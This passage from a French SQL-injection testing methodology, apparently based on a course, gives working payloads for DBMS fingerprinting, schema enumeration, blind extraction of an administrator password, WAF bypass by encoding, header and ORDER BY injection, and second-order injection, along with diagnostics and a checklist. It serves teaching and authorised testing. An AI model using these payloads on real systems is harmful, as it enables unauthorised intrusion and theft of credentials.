GET /produit?id=1' AND @@version IS NOT NULL-- HTTP/1.1
```

→ si la page reste normale, `@@version` est valide : MySQL/MariaDB ou SQL Server.

```http
GET /produit?id=1' UNION SELECT NULL,version(),NULL-- HTTP/1.1
```

→ chaîne du type `PostgreSQL 15.2...` = PostgreSQL ; format `8.0.34` = MySQL ; erreur = ni l'un ni l'autre.

```http
GET /produit?id=1' UNION SELECT NULL,banner,NULL FROM v$version-- HTTP/1.1
```

→ succès = Oracle (seul SGBD exposant `v$version`).

**Observations à examiner**

Succès ou échec de chaque test différenciant, contenu retourné par `version()`.

**Résultat positif**

Le SGBD est identifié sans ambiguïté par élimination successive, et sa version précise est extraite pour une recherche ultérieure de CVE propres à cette build.

**Résultat négatif ou ambigu**

Aucun test ne réussit clairement : le canal UNION n'est peut-être pas disponible (vérifier d'abord l'étape 7), ou une syntaxe spécifique à une version particulière du SGBD interfère — tester les variantes de commentaire et de concaténation du tableau comparatif avant de conclure à une identification impossible.

**Interprétation**

L'identification du SGBD n'est pas une fin en soi mais une condition nécessaire à la fiabilité de toutes les étapes suivantes (énumération, extraction, OAST), dont la syntaxe diffère radicalement d'un moteur à l'autre.

**Étape suivante**

Une fois le SGBD identifié → étape 9bis (énumération de structure) si les noms de tables/colonnes ne sont pas connus, ou directement aux étapes d'extraction (7, 10) avec la syntaxe adaptée.

**Erreurs fréquentes**

Continuer à utiliser une syntaxe générique ou supposée sans avoir confirmé le SGBD réel, provoquant des échecs d'interprétation ambigus aux étapes suivantes.

---

### Étape 9bis — Énumération de la structure de la base

**Objectif**

Découvrir les noms de tables et de colonnes sans connaissance préalable de la structure interne de l'application.

**Prérequis**

SGBD identifié (étape 9) et canal UNION disponible (étape 7) avec le nombre de colonnes déterminé.

**Hypothèse**

Les métadonnées standard du SGBD (`information_schema` pour la plupart des moteurs, vues propriétaires pour Oracle) sont accessibles via le même canal d'injection déjà confirmé.

**Action à effectuer**

```http
GET /produit?id=1' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema=database()-- HTTP/1.1
```

puis, pour la table d'intérêt identifiée :

```http
GET /produit?id=1' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users'-- HTTP/1.1
```

Sur Oracle, substituer `all_tables`/`all_tab_columns` et écrire les noms d'objets en MAJUSCULES.

**Observations à examiner**

Liste des tables puis des colonnes affichées à l'emplacement de la colonne texte confirmée (étape 7).

**Résultat positif**

La structure complète (tables et colonnes sensibles) est révélée, permettant de cibler précisément l'exfiltration finale (étape 7, dernière sous-étape).

**Résultat négatif ou ambigu**

Aucun résultat retourné sur Oracle malgré une syntaxe correcte : vérifier la casse des noms d'objets comparés (`WHERE table_name='USERS'` et non `'users'`), les métadonnées Oracle étant généralement stockées en majuscules.

**Interprétation**

Une comparaison de casse incorrecte sur Oracle produit un échec silencieux (requête valide mais aucun résultat), à distinguer d'une absence réelle de la table recherchée.

**Étape suivante**

Une fois la structure connue → finaliser l'exfiltration (étape 7, dernière sous-étape) avec les noms exacts.

**Erreurs fréquentes**

Comparer les noms de table en minuscules sur Oracle, provoquant un échec silencieux interprété à tort comme une absence de table.

---

### Étape 10 — Extraction caractère par caractère (généralisation des canaux Blind)

**Objectif**

Reconstituer la valeur complète d'un champ sensible (mot de passe, jeton) en l'absence de canal In-Band/UNION exploitable, en généralisant le principe de comparaison vraie/faux à chaque caractère.

**Prérequis**

Un canal Blind confirmé (Boolean-Based étape 3, erreurs conditionnelles étape 4, ou Time-Based étape 5).

**Hypothèse**

En déterminant d'abord la longueur de la valeur recherchée puis en testant chaque position avec `SUBSTRING()`, la valeur complète peut être reconstruite caractère par caractère.

**Action à effectuer**

Déterminer d'abord la longueur :

```http
Cookie: TrackingId=xyz' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')=20--
```

Puis extraire chaque position, selon le canal confirmé :

*Variante Boolean-Based :*

```http
Cookie: TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--
```

*Variante erreurs conditionnelles :*

```sql
xyz' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN 1/0 ELSE 'a' END)='a
```

*Variante temporelle :*

```sql
' AND IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a',SLEEP(5),0)--
```

Itérer sur l'ensemble des caractères possibles (`a-z`, `A-Z`, `0-9`) à chaque position, jusqu'à reconstitution complète.

**Observations à examiner**

Signal du canal choisi (contenu, code HTTP, ou délai) à chaque test de caractère et de position.

**Résultat positif**

La valeur complète est reconstituée position par position, de façon cohérente avec la longueur déterminée initialement.

**Résultat négatif ou ambigu**

- Aucune position ne confirme de caractère dans l'alphabet testé : élargir le jeu de caractères testés (caractères spéciaux, espace) au-delà de l'alphanumérique simple.
- Extraction très lente ou interrompue : envisager l'optimisation par recherche dichotomique sur le code ASCII (`ASCII(SUBSTRING(...)) > 109`) plutôt que test d'égalité caractère par caractère, ou l'automatisation via Burp Intruder (Cluster Bomb) ou `sqlmap`.

**Interprétation**

L'extraction manuelle caractère par caractère reste praticable pour une démonstration ciblée, mais devient rapidement fastidieuse (jusqu'à 20 × 62 requêtes dans le pire cas pour un mot de passe de 20 caractères) : l'automatisation est recommandée au-delà d'une démonstration de preuve de concept.

**Étape suivante**

Documenter l'impact une fois la valeur reconstituée (section 8).

**Erreurs fréquentes**

Limiter le jeu de caractères testé à l'alphabet simple sans envisager chiffres ou caractères spéciaux ; ne pas envisager l'automatisation pour une extraction de plusieurs dizaines de caractères, rendant le test impraticable en temps raisonnable pour le canal temporel en particulier (technique la plus lente et la plus bruyante selon le cours).

---

### Étape 11 — Contournement de WAF par encodage

**Objectif**

Faire passer un payload sous une forme non reconnue par un WAF filtrant sur des motifs textuels bruts, tout en restant décodable correctement par la couche applicative en aval.

**Prérequis**

Un WAF bloque explicitement le payload en clair (réponse `403 Forbidden` typique en réponse à un mot-clé SQL comme `SELECT`).

**Hypothèse**

La couche applicative décode certains formats (entités XML, Unicode JSON) après avoir traversé le WAF, qui lui ne reconnaît pas ces formes encodées.

**Action à effectuer**

Valider d'abord que le WAF bloque le payload en clair, puis tester les formes encodées :

```xml
<storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
```

```json
{"storeId": "999 \u0053ELECT * FROM information_schema.tables"}
```

**Observations à examiner**

Code de réponse pour le payload en clair (403 attendu) comparé au payload encodé (succès d'exécution attendu, observable par la technique de détection choisie en section 4, étapes 1 à 5).

**Résultat positif**

Le payload en clair est bloqué mais sa forme encodée produit un comportement cohérent avec une exécution SQL normale : bypass confirmé.

**Résultat négatif ou ambigu**

La forme encodée est également bloquée : le WAF normalise probablement l'entrée avant filtrage (bonne pratique), ou l'application elle-même ne décode pas cette forme particulière avant exécution — tester d'autres formats d'encodage selon le format d'échange réellement utilisé par l'application (XML vs JSON).

**Interprétation**

Le succès de cette technique dépend spécifiquement d'un décalage entre le moment où le WAF filtre et le moment où l'application décode : son échec ne remet pas en cause l'injection elle-même si elle est déjà confirmée par ailleurs, seulement ce vecteur de contournement précis.

**Étape suivante**

Si positif → reprendre l'exploitation (étapes 7 à 10) avec le payload encodé systématiquement. Si négatif → documenter la normalisation du WAF comme efficace sur ce vecteur.

**Erreurs fréquentes**

Tester l'encodage sans avoir d'abord confirmé que le payload en clair est effectivement bloqué, rendant impossible la distinction entre un bypass réussi et une absence de WAF.

---

### Étape 12 — Test des en-têtes HTTP et des emplacements structurels (`ORDER BY`)

**Objectif**

Étendre les tests au-delà des paramètres GET/POST visibles, vers les en-têtes journalisés et les emplacements structurels non protégeables par paramétrage classique.

**Prérequis**

Les tests sur le formulaire principal n'ont rien donné, ou en complément systématique de toute campagne de test, indépendamment du résultat sur le formulaire principal.

**Hypothèse**

*En-têtes* : une requête de journalisation distincte (ex. `INSERT INTO logs`) peut être vulnérable indépendamment du formulaire principal, même parfaitement paramétré par ailleurs.

*Structurel* : un paramètre de tri alimentant directement un nom de colonne ou une direction `ORDER BY` ne peut pas être protégé par une requête préparée classique, car le SGBD attend un identifiant, pas une valeur liée.

**Action à effectuer**

*En-têtes :*

```http
POST /login HTTP/1.1
User-Agent: ' OR 1=1-- 
Content-Type: application/x-www-form-urlencoded

username=test&password=test
```

Tester systématiquement chaque en-tête réfléchi ou journalisé (`User-Agent`, `Referer`, `X-Forwarded-For`) avec les mêmes techniques que pour un paramètre classique.

*Structurel :*

```http
GET /produits?sort=(CASE WHEN (1=1) THEN prix ELSE nom END) HTTP/1.1
```

**Observations à examiner**

*En-têtes* : tout changement de comportement même sur une fonctionnalité sans lien apparent avec l'en-tête testé.

*Structurel* : ordre d'affichage des produits, comparé entre une condition vraie et une condition fausse injectée dans l'expression de tri.

**Résultat positif**

*En-têtes* : un changement de comportement est observé, révélant une requête de journalisation vulnérable indépendamment du formulaire principal.

*Structurel* : l'ordre d'affichage diffère selon la condition injectée, confirmant un canal d'exfiltration Boolean-Based à part entière via `ORDER BY`.

**Résultat négatif ou ambigu**

*En-têtes* : aucun changement observé — l'en-tête n'est peut-être pas journalisé du tout, ou l'est de façon paramétrée ; tester néanmoins systématiquement les autres en-têtes candidats avant de conclure.

*Structurel* : aucune variation d'ordre — le paramètre de tri est peut-être déjà validé par liste blanche (bonne pratique, section 7.2 du cours).

**Interprétation**

Ces deux vecteurs sont fréquemment négligés car hors du périmètre évident de test (formulaire principal visible) : leur omission peut laisser passer une vulnérabilité même lorsque le point d'entrée principal est correctement sécurisé.

**Étape suivante**

Si positif sur l'un ou l'autre → reprendre les étapes d'exploitation pertinentes (3 à 10) adaptées à ce point d'entrée précis. Si négatif → documenter ces vecteurs comme testés et non exploitables sur cette cible.

**Erreurs fréquentes**

Limiter l'audit au seul formulaire principal visible sans tester systématiquement les en-têtes journalisés et les paramètres structurels comme `sort`/`order`.

---

### Étape 13 — Recherche de SQLi de second ordre

**Objectif**

Identifier une injection qui n'est pas exploitable au moment de la soumission initiale (parfaitement paramétrée) mais lors d'une réutilisation ultérieure non sécurisée de la donnée stockée.

**Prérequis**

Un champ de saisie utilisateur est stocké en base (nom d'affichage, profil, commentaire) sans provoquer d'anomalie à l'enregistrement, même avec un payload d'injection inoffensif en apparence.

**Hypothèse**

Une fonctionnalité distincte de celle ayant stocké la donnée la relit ultérieurement et la réinjecte dans une requête construite par concaténation, sans la reparamétrer à cette seconde occasion.

**Action à effectuer**

Phase 1 — stocker un payload d'injection inoffensif à l'enregistrement :

```http
POST /account/settings HTTP/1.1
Content-Type: application/x-www-form-urlencoded

display_name=administrator'--
```

Phase 2 — cartographier systématiquement toutes les fonctionnalités de l'application qui relisent et réutilisent cette donnée stockée (recherche d'une autre page, d'un traitement différé, d'une fonctionnalité d'administration), puis observer si l'une d'elles déclenche un comportement anormal lors de cette réutilisation.

**Observations à examiner**

Absence d'anomalie à la phase 1 (comportement attendu pour un paramétrage correct), puis tout comportement anormal observé ultérieurement dans une fonctionnalité réutilisant la donnée stockée (ex. un compte dont le mot de passe a été modifié sans action explicite de l'attaquant sur ce compte).

**Résultat positif**

Un effet différé est observé dans une fonctionnalité distincte de celle utilisée pour le stockage initial (ex. modification effective d'un mot de passe administrateur via une fonctionnalité de support relisant le nom d'affichage stocké) : SQLi de second ordre confirmée.

**Résultat négatif ou ambigu**

Aucun effet différé observé après cartographie des points de réutilisation connus : soit aucune fonctionnalité ne réutilise cette donnée par concaténation non sécurisée, soit tous les points de réutilisation identifiés sont également paramétrés — étendre la cartographie à d'autres champs stockés avant de conclure.

**Interprétation**

Le cours souligne explicitement la difficulté de détection de cette variante : un test isolé de la phase de stockage ne révèle jamais rien, le point d'injection et le point d'exécution étant dissociés dans le temps et dans le code ; seule une cartographie exhaustive des points de réutilisation permet de la détecter.

**Étape suivante**

Si positif → documenter l'impact (section 8) en précisant explicitement le décalage temporel entre stockage et exécution. Si négatif → étendre la cartographie à d'autres champs stockés de l'application avant de conclure à l'absence de cette variante.

**Erreurs fréquentes**

Conclure à l'absence de vulnérabilité après un test isolé de la phase de stockage, sans avoir cartographié ni testé les fonctionnalités de réutilisation ultérieure de la donnée.

---

## 5. Arbre de décision : que faire selon le résultat ?



---

## 6. Construire la chaîne d'exploitation

La chaîne varie selon la variante confirmée ; la grille ci-dessous s'applique au cas le plus complet (de la détection à l'exfiltration structurée), les étapes non pertinentes pour une variante donnée (ex. OAST pour un cas In-Band simple) pouvant être omises.

1. **Point d'entrée** : paramètre, en-tête ou champ stocké confirmé comme concaténé sans paramétrage (section 3.1).
2. **Primitive technique** : canal d'observation confirmé comme exploitable (In-Band, Inline, Boolean, erreurs conditionnelles, temporel, ou OAST — section 4, étapes 1 à 6).
3. **Déclenchement** : fingerprinting du SGBD (étape 9) pour adapter précisément la syntaxe des étapes suivantes.
4. **Effet intermédiaire** : structure de la base découverte (étape 9bis) ou nombre de colonnes déterminé (étape 7), selon la voie d'exfiltration choisie.
5. **Aboutissement** : donnée sensible effectivement extraite (étape 7 ou 10) ou contrôle d'accès effectivement contourné (étape 8).
6. **Preuve** : valeur extraite vérifiable, ou accès effectif à une zone protégée, documentés de façon reproductible.

| Étape | Résultat requis | Comment le vérifier | Si cela échoue |
|---|---|---|---|
| Point d'entrée | Paramètre confirmé comme concaténé sans paramétrage | Signal positif sur l'une des étapes 1 à 5 | Tester les emplacements additionnels (étape 12) avant d'abandonner la surface |
| Primitive technique | Canal d'observation confirmé par couple vrai/faux | Divergence cohérente et reproductible sur le canal retenu | Descendre au canal suivant dans l'ordre de la section 4 (étapes 1 à 6) |
| Déclenchement | SGBD identifié avec certitude | Tests différenciants de l'étape 9 concluants | Tester les variantes de syntaxe pour plusieurs SGBD avant de conclure à une identification impossible |
| Effet intermédiaire | Structure de la base connue (tables/colonnes pertinentes) | Résultats de l'énumération via `information_schema` ou équivalent | Vérifier la casse (Oracle) ou tester un canal Blind pour l'énumération si l'UNION n'est pas disponible |
| Aboutissement | Donnée extraite ou accès obtenu, qualifié précisément | Contenu reconstruit cohérent, ou accès effectif à une zone authentifiée | Revenir au diagnostic (section 7) pour identifier l'étape bloquante |
| Preuve | Preuve reproductible et minimale de l'impact | Capture de la requête et de la réponse pour chaque étape confirmée | Documenter le niveau de preuve atteint (signal détecté / canal confirmé / donnée extraite) |

---

## 7. Diagnostic des échecs

| Symptôme observé | Causes possibles | Comment les distinguer | Test de diagnostic | Suite logique |
|---|---|---|---|---|
| Apostrophe sans effet sur un paramètre supposé texte | Paramètre réellement numérique casté, échappement en place, ou paramètre non concaténé du tout | Vérifier si le paramètre accepte une expression arithmétique (étape 2) | Tester `id=2-1` avant de conclure à une protection | Si l'expression n'est pas non plus évaluée, passer directement aux canaux Blind (étapes 3 à 5) |
| Divergence de contenu absente malgré condition vraie/fausse injectée | Canal de contenu non exploitable (filtre, échappement effectif sur ce point précis), ou page ne reflétant jamais de données de la base | Tester le canal suivant (erreurs conditionnelles, étape 4) avant de conclure | Comparer le comportement entre les trois canaux successifs (contenu, code HTTP, délai) | Si les trois échouent, tester l'OAST (étape 6) avant de documenter une protection robuste |
| `403 Forbidden` systématique sur tout payload contenant un mot-clé SQL | WAF actif filtrant sur motif textuel brut | Vérifier que le blocage est spécifique au mot-clé et non générique à toute requête malformée | Tester un encodage (étape 11) avant de conclure à une protection WAF efficace | Si l'encodage échoue également, documenter la normalisation du WAF comme robuste sur ce vecteur |
| UNION accepté sans erreur mais aucune donnée visible à l'écran | Colonne texte confirmée n'est pas effectivement rendue dans le HTML visible (champ caché, non affiché) | Inspecter le code source complet de la réponse, pas seulement le rendu visuel du navigateur | Rechercher la lettre de test dans l'intégralité du HTML retourné, y compris attributs et champs cachés | Si réellement absente partout, tester une autre colonne ou un autre point d'injection pour l'UNION |
| Énumération `information_schema` sans résultat sur Oracle | Comparaison de casse incorrecte, Oracle stockant les noms d'objets en majuscules | Retester avec le nom en majuscules | `WHERE table_name='USERS'` au lieu de `'users'` | Si toujours sans résultat, vérifier le nom exact de la vue (`all_tables` vs `dba_tables` selon les privilèges) |
| Délai Time-Based non reproductible | Latence réseau ponctuelle, ou syntaxe de SGBD incorrecte | Répéter le test plusieurs fois et tester une seconde valeur de délai pour vérifier la proportionnalité | Comparer `SLEEP(5)` et `SLEEP(10)` sur plusieurs répétitions | Si aucune proportionnalité n'apparaît jamais, tester les syntaxes des autres SGBD avant de conclure |
| Aucune interaction OAST reçue malgré syntaxe correcte pour le SGBD identifié | Droits réseau sortants restreints côté SGBD (environnement durci) | Vérifier si d'autres signes d'un environnement durci sont présents par ailleurs dans l'audit | Tester une fonction réseau alternative propre au même SGBD si disponible | Si toutes les fonctions réseau échouent, documenter l'OAST comme non disponible sur cette cible, sans remettre en cause l'injection elle-même si confirmée par un autre canal |
| Aucun effet observé en Second-Order après stockage d'un payload inoffensif | Absence de point de réutilisation non sécurisé, ou cartographie incomplète des fonctionnalités réutilisant la donnée | Étendre systématiquement la recherche aux fonctionnalités d'administration, de support, ou de traitement différé/batch | Cartographier explicitement tous les endroits où la donnée stockée est relue ailleurs dans l'application | Si la cartographie est exhaustive et reste négative, documenter l'absence de cette variante sur ce champ précis |

**Principe de diagnostic** : avant de conclure à l'absence de vulnérabilité sur un point d'entrée, vérifier que l'ensemble des canaux pertinents (In-Band/Inline, Boolean, erreurs conditionnelles, temporel, OAST) a été testé dans l'ordre de dégradation du signal, et ne jamais généraliser un résultat négatif obtenu sur un seul canal à l'ensemble des autres.

---

## 8. Vérification de l'exploitation et preuve de l'impact

**Résultat final attendu** selon la variante confirmée :

- *Contournement d'authentification* : accès effectif et vérifiable à un compte sans connaissance de son mot de passe réel.
- *Exfiltration (UNION, Blind, OAST)* : donnée sensible extraite et vérifiée, idéalement confirmée par un second moyen indépendant lorsque c'est possible (ex. tentative de connexion avec le mot de passe extrait).
- *Second-Order* : démonstration explicite du décalage entre le point de stockage et le point d'exécution, avec effet observable sur la fonctionnalité de réutilisation.

**Éléments techniques de confirmation :**

- Pour une extraction caractère par caractère, vérifier la cohérence globale de la valeur reconstruite (format attendu, absence d'incohérence entre deux positions adjacentes) avant de la considérer comme fiable.
- Pour un fingerprinting, confirmer le SGBD par au moins deux tests différenciants convergents plutôt qu'un seul.
- Pour un OAST, confirmer que l'adresse IP source de l'interaction correspond bien à l'infrastructure de la cible, pas à celle du testeur.

**Contrôles pour exclure une explication alternative :**

- Vérifier que la divergence observée n'est pas reproductible par une requête légitime de l'application (ex. une recherche dont le résultat élargi serait dû à un comportement métier normal plutôt qu'à l'injection).
- Pour un Time-Based, confirmer la proportionnalité du délai à au moins deux valeurs de pause distinctes avant de considérer le canal comme fiable.

**Distinction entre niveaux de preuve :**

- **Signal détecté** : une anomalie isolée (erreur, divergence ponctuelle) est observée, sans validation par couple vrai/faux.
- **Canal confirmé** : une divergence cohérente et reproductible entre condition vraie et condition fausse est établie sur un canal donné.
- **Impact démontré** : une donnée effectivement extraite et vérifiée, ou un contrôle d'accès effectivement contourné avec accès obtenu.

**Limites des observations :**

- Le cours ne fournit pas de méthode pour l'exploitation de privilèges SGBD avancés (lecture/écriture de fichiers, exécution de commandes OS) au-delà de l'OAST : toute conclusion sur ces impacts sortirait du périmètre couvert par cette fiche.
- La preuve doit rester minimale et proportionnée au périmètre du test : l'extraction d'un enregistrement de démonstration suffit généralement à établir l'impact, sans nécessiter le dump complet d'une table entière si cela dépasse le périmètre autorisé — et ne jamais tester une variante destructrice (`DELETE`, `DROP`) hors d'un environnement explicitement isolé.

---

## 9. Checklist opérationnelle

**Prérequis**

- [ ] Format du paramètre identifié (texte entre guillemets vs numérique) pour orienter le premier test (étape 1 vs 2).
- [ ] Temps de réponse de référence mesuré avant tout test Time-Based.

**Reconnaissance**

- [ ] Paramètres GET/POST classiques, paramètres de tri (`ORDER BY`), et en-têtes journalisés (`User-Agent`, `Referer`, `X-Forwarded-For`) recensés comme surfaces distinctes.
- [ ] Champs stockés puis potentiellement réutilisés ailleurs identifiés pour une recherche de Second-Order.

**Premiers tests**

- [ ] Apostrophe seule testée et confirmée (ou infirmée) par double apostrophe.
- [ ] Expression arithmétique testée sur tout paramètre numérique.

**Validation des hypothèses**

- [ ] Boolean-Based testé par couple condition vraie/condition fausse.
- [ ] Erreurs conditionnelles testées si le contenu ne diverge jamais.
- [ ] Time-Based testé si ni contenu ni code HTTP ne divergent, avec répétition et vérification de proportionnalité.
- [ ] OAST testé si un traitement asynchrone est suspecté ou si tous les canaux précédents ont échoué.
- [ ] WAF bypass par encodage testé si un blocage spécifique à un mot-clé SQL est observé.

**Construction de l'exploitation**

- [ ] SGBD identifié par fingerprinting avant toute exploitation avancée.
- [ ] Nombre de colonnes déterminé par `ORDER BY` si UNION envisagé.
- [ ] Structure de base énumérée via les métadonnées si les noms de tables/colonnes ne sont pas connus.
- [ ] Contournement d'authentification tenté si le champ ciblé le permet.
- [ ] Extraction caractère par caractère automatisée (dichotomie ASCII ou outil dédié) au-delà d'une démonstration de preuve de concept.

**Vérification de l'impact**

- [ ] Niveau de preuve atteint explicitement qualifié (signal détecté / canal confirmé / impact démontré).
- [ ] Cohérence de toute valeur extraite vérifiée avant documentation finale.

**Diagnostic si l'exploitation échoue**

- [ ] Ensemble des canaux (In-Band/Inline, Boolean, erreurs conditionnelles, temporel, OAST) testé dans l'ordre avant de conclure à une protection robuste sur un point d'entrée.
- [ ] En-têtes, paramètres structurels et points de réutilisation (Second-Order) testés en complément du formulaire principal.

---

## 10. Leçons transférables

**Principes de raisonnement réutilisables sur d'autres vulnérabilités :**

- Organiser les techniques par richesse décroissante du canal d'observation disponible (contenu > code HTTP > délai > interaction réseau), et descendre d'un cran uniquement après avoir confirmé l'échec du canal précédent.
- Valider systématiquement toute hypothèse par un couple de tests opposés (vrai/faux) plutôt que par une observation isolée, un signal unique pouvant toujours être un faux positif.
- Ne jamais conclure à l'absence de vulnérabilité sur la base d'un seul canal testé négativement : chaque canal ne teste qu'une forme d'exploitation particulière.
- Étendre systématiquement la recherche au-delà du point d'entrée évident (formulaire principal) vers les en-têtes, les paramètres structurels, et les points de réutilisation différée.

**Mécanismes techniques propres à cette vulnérabilité, à ne pas généraliser :**

- La syntaxe précise de chaque technique (fonctions de délai, commentaires, tables de métadonnées) est spécifique à chaque SGBD et ne doit jamais être présumée universelle avant fingerprinting.
- Le nombre et le type de colonnes compatibles pour un UNION dépendent entièrement de la requête d'origine et doivent être redéterminés pour chaque point d'injection, même au sein de la même application.
- Le comportement face à un jeu de résultats d'authentification multiple (bypass) dépend de l'implémentation applicative précise et n'est jamais garanti.

**Hypothèses les plus faciles à confondre avec des certitudes :**

- Un paramètre « numérique » n'est pas protégé nativement : seule une requête construite par concaténation sans guillemets peut rester vulnérable à une évaluation d'expression, indépendamment du type apparent du paramètre.
- Un code `409`/`403` n'est pas toujours un signe de protection : sur une autre classe de vulnérabilité ce peut être un indice positif, mais ici un `403` signale généralement un WAF, pas une absence de faille sous-jacente.
- Un échec de la phase de stockage (Second-Order) ne garantit rien : le point d'injection et le point d'exécution peuvent être totalement dissociés dans le temps et le code.

**Compétences pratiques à maîtriser pour exploiter cette vulnérabilité sans aide :**

- Construire et interpréter des comparaisons vraie/fausse rigoureuses sur chacun des quatre canaux (contenu, code HTTP, délai, interaction réseau).
- Déterminer méthodiquement le nombre de colonnes et leur compatibilité de type pour une exploitation UNION-based.
- Adapter la syntaxe de chaque technique au SGBD réellement identifié plutôt que d'appliquer une syntaxe générique supposée universelle.
- Automatiser une extraction caractère par caractère par recherche dichotomique ou via un outil dédié, au-delà d'une démonstration manuelle de preuve de concept.
